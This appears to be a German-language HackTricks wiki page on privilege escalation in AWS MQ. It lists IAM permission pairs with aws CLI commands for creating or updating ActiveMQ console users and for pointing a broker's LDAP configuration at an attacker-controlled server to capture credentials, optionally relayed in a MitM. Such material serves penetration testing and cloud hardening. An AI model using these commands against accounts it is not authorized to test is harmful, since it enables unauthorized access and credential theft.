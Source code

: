 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

Für weitere Informationen über MQ siehe:

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Mit diesen Berechtigungen kannst du **einen neuen Benutzer in einem ActiveMQ-Broker erstellen** (dies funktioniert nicht in RabbitMQ):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potenzielle Auswirkungen:** Zugriff auf sensible Informationen durch Navigation in ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Mit diesen Berechtigungen können Sie **einen neuen Benutzer in einem ActiveMQ-Broker erstellen** (dies funktioniert nicht in RabbitMQ):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potenzielle Auswirkungen:** Zugriff auf sensible Informationen durch Navigation in ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Wenn ein Broker **LDAP** zur Autorisierung mit **ActiveMQ** verwendet, ist es möglich, die **Konfiguration** des verwendeten LDAP-Servers auf **einen, der vom Angreifer kontrolliert wird**, zu **ändern**. Auf diese Weise kann der Angreifer **alle Anmeldeinformationen stehlen, die über LDAP gesendet werden**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Wenn Sie irgendwie die ursprünglichen Anmeldeinformationen finden könnten, die von ActiveMQ verwendet werden, könnten Sie einen MitM durchführen, die Anmeldeinformationen stehlen, sie auf dem ursprünglichen Server verwenden und die Antwort senden (vielleicht könnten Sie dies einfach tun, indem Sie die gestohlenen Anmeldeinformationen wiederverwenden).

**Potenzielle Auswirkungen:** ActiveMQ-Anmeldeinformationen stehlen

{{#include ../../../banners/hacktricks-training.md}}
